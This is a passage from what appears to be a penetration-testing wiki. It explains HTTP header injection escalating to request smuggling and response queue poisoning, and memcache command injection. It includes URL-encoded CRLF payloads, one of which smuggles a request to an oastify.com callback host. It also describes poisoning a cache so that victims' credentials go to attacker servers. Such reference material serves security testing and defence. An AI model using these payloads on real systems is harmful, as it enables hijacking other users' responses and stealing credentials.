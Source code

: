 
### Header Injection to Request Smuggling

For more info about this technique and potential problems [**check the original source**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning).

You can inject essential headers to ensure the **back-end keeps the connection open** after responding to the initial request:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```

Afterward, a second request can be specified. This scenario typically involves [HTTP request smuggling](http-request-smuggling/), a technique where extra headers or body elements appended by the server post-injection can lead to various security exploits.

**Exploitation:**

1. **Malicious Prefix Injection**: This method involves poisoning the next user's request or a web cache by specifying a malicious prefix. An example of this is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

2. **Crafting a Prefix for Response Queue Poisoning**: This approach involves creating a prefix that, when combined with trailing junk, forms a complete second request. This can trigger response queue poisoning. An example is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

### Memcache Injection

Memcache is a **key-value store that uses a clear text protocol**. More info in:

{% content-ref url="../network-services-pentesting/11211-memcache/" %}
[11211-memcache](../network-services-pentesting/11211-memcache/)
{% endcontent-ref %}

**For the full information read the**[ **original writeup**](https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/)

If a platform is taking **data from an HTTP request and using it without sanitizing** it to perform **requests** to a **memcache** server, an attacker could abuse this behaviour to **inject new memcache commands**.

For example, in the original discovered vuln, cache keys were used to return the IP and port a user shuold connect to, and attackers were able to **inject memcache comands** that would **poison** the **cache to send the vistims details** (usrnames and passwords included) to the attacker servers:

<figure><img src="../.gitbook/assets/image (659).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/ba72cd16-2ca0-447b-aa70-5cde302a0b88/body-578d9f9f-1977-4e34-841c-ad870492328f_10.png?w=1322&#x26;h=178&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>
